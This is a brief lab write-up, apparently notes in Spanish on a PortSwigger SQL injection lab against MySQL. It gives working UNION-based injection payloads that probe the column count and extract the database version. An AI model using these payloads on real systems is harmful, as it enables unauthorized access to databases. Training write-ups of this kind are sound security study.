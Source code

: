 # 6 - Idem on mysql

> This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
>
>  To solve the lab, display the database version string.

* Similar al anterior realizamos  `'+UNION+SELECT+'abc','def'#`
* Eso nos muestra el retorno de dos columnas entonces hacemos lo siguiente:  '+UNION+SELECT+@@version,+NULL\#

\`\`

